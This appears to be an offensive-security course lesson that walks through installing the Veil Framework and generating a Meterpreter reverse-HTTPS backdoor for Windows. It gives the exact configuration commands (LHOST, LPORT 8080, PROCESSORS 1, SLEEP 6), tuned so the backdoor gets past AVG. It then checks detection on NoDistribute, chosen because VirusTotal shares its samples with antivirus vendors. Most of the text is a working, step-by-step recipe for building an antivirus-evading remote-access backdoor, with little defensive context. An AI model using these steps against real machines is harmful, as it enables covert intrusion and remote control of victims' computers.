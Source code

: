 # Access to operating systems

# Client side

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Installing & Running Veil
2. Payloads overview
3. Generating a Veil backdoor
4. Listening for connection 

## Installing & Running Veil

First things we want to run Kali and Window 10,  we will use **Veil - Framework**.

We can use it by following this steps:

1. Go to the terminal and write, `rm -rf /root/.config/wine/vei` 
2. In the terminal write cd `cd /usr/share/veil/config`
3. Then write `./setup.py --force --silent`
4. Finally, `cd ..` and write `./Veil.py`

![Veil1](/img/Veil1.png)


What is Veil?

The Veil Framework is a collection of tools designed for use during offensive security testing. When the time calls for it, Mandiant’s Red Team will use the Veil-Framework to help achieve their objective.  The most commonly used tool is Veil-Evasion, which can turn an arbitrary script or piece of shell code into a Windows executable that will evade detections by common antivirus products.

The `list` command displays Veil's main commands, which are as follows:

1. **Evasion**: This generates undetectable backdoors.
2. **Ordnance**: This generates the payloads used by Evasion; this is more of a
secondary tool.

## Payloads overview

Let's use **Evasion** by typing `use 1` 

![Veil2](/img/Veil2.png)

As we can see Veil gives a list of commands that can run on this tool, let's write `list` to give us all available payloads 

![Veil3](/img/Veil3.png)

The first part of the payload's name is `cs`, which refers to the programming
language the payload will be wrapped in. As you can see in the preceding
screenshot, languages used include GO, C, CS, Python, PowerShell, and Ruby.

The second part of any payload is really important, as this is the type of payload;
in other words, the type of code that's going to be executed on the target
computer.

we will use `15) go/meterpreter/rev_https.py` 

In this example, we're using Meterpreter, which is a payload designed by Metasploit.

### What is Meterpreter?
Meterpreter is an advanced, dynamically extensible payload that uses _in-memory_ DLL injection stagers and is extended over the network at runtime. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.

The third part of a payload's name is the method that's going to be used to
establish its connection. In our example, that's rev_https. rev, which stands for
reverse, and https is the protocol that will be used to establish the connection.
There are also a few examples of rev_tcp in the preceding screenshot, which
creates a reverse TCP connection.

## Generating a Veil backdoor

Now we are going to use Veil to generate a backdoor. First, we will run `use 15` to use `15) go/meterpreter/rev_https.py`

![Veil4](/img/Veil4.png)

we will use steps:
1. we want to set `LHOST`  our IP address 

		set LHOST [your kali IP]

2. we want to change the `LPORT` to be `8080`

		set LPORT 8080

3. To ensure our backdoor can bypass AVG, we need to modify the minimum
number of `processors` used by it—in this case, 1. To do this, use the following
command:
		
		set PROCESSORS 1
4. We will also modify the `SLEEP` option, which is the number of seconds a backdoor will wait before it executes the payload. To tell your backdoor to wait 6 seconds, use the following command:

		set SLEEP 6

5. We are now going to generate the backdoor using the `generate` command.

![Veil5](/img/Veil5.png)

We now need to name our backdoor. Here, we're going to name it `rev_https_8080.`

To test our backdoor, we're going to bypass Veil's checkvt command, which is not always accurate, and VirusTotal, which shares its results with antivirus software, and instead opt for the website [NoDistribute](https://nodistribute.com)

![Veil6](/img/Veil6.png)

Once we have clicked Scan File, or View Previous Results, we can see that the
file we uploaded has successfully bypassed all antivirus programs

![Veil6](/img/Veil6.png)
